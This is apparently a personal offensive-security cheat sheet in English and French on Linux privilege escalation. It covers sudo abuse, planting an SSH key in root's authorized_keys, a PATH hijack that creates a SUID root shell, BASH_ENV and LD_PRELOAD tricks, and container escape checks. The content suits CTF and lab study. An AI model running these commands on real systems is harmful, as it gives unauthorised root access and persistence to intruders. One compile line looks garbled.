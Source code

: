 #offsecMethodo
```
bash -p
```
	| `sudo -l` | List available `sudo` privileges |
	| `sudo -u user /bin/echo Hello World!` | Run a command with `sudo` |
	| `sudo su -` | Switch to root user (if we have access to `sudo su`) |
	| `sudo su user -` | Switch to a user (if we have access to `sudo su`) |
	| `ssh-keygen -f key` | Create a new SSH key |
	| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
	| `ssh root@10.10.10.10 -i key` | SSH to the server with the generated private key |

## SUID / SUDO
### Exploit absolute path env #ExploitNotAbsolutPath 
```
% cat change-pass 
#!/bin/ksh user=$1 
passwd $user
```
Rewriting the script in Korn shell helps us avoid the C-shell problem , but we still have problems. The script is vulnerable to a hacker manipulating the PATH variable. Because the program uses relative path names, a hacker can change his PATH to use his own program instead of the regular /usr/bin/passwd program: 
```
% export PATH='/tmp' 
% echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh" >/tmp/passwd 
% ./change-pass
```
The PATH has been changed, and the change-pass command now runs the /tmp/passwd program instead of the /usr/bin /passwd program that we intended.

```
$ export PATH=/hack/path:$PATH
$ echo $PATH
```

###  script content : system("/bin/bash"); #ExploitBASHENV
```
mkdir /tmp/zel
echo "cat .passwd" > /tmp/zel/startup.sh  
export BASH_ENV=/tmp/zel/startup.sh  
./script
```
`BASH_ENV` est une variable d'environnement utilisée dans le shell Bash sur les systèmes Linux. Elle spécifie le chemin d'accès vers un fichier qui sera exécuté avant le démarrage de chaque session Bash non interactive.

Une session Bash non interactive est généralement celle qui est utilisée pour exécuter des scripts plutôt que pour une interaction directe avec l'utilisateur dans un terminal. Lorsque vous exécutez un script Bash, la variable `BASH_ENV` peut être utilisée pour spécifier un fichier contenant des configurations spécifiques qui doivent être chargées avant l'exécution du script.

Par exemple, si vous avez un fichier de configuration spécifique pour vos scripts Bash, comme des variables d'environnement particulières ou des paramètres spécifiques au script, vous pouvez le spécifier en utilisant la variable `BASH_ENV`. Cela permet d'assurer que ces configurations sont en place avant l'exécution du script.

```
cat /tmp/toto - |./script
```

### Si le résultat de `sudo -l` contient ``env_keep+=LD_PRELOAD`` ou ``(root) SETENV: NOPASSWD: /opt/monitor.sh``

`SETENV:`: Autorise l'utilisateur à utiliser l'option `-E` ou `--preserve-env` avec sudo, ce qui permet de préserver l'environnement de l'utilisateur lors de l'exécution de la commande.
En utilisant `LD_PRELOAD`, vous pouvez forcer un programme à utiliser des versions spécifiques de fonctions, même si celles-ci ne font pas partie des bibliothèques standard du système.
```bash
gcc -shared exp -o exp -nostartfiles
```
$
```bash
LD_PRELOAD=/tmp/exploit ./program
```
pour le proxy_chain
``` bash
sudo http_proxy=http://10.10.16.108:1234 /opt/monitor.sh
```


## Container escape
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#capabilities-in-docker-containershttps://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#capabilities-in-docker-containers

```
capsh --print
```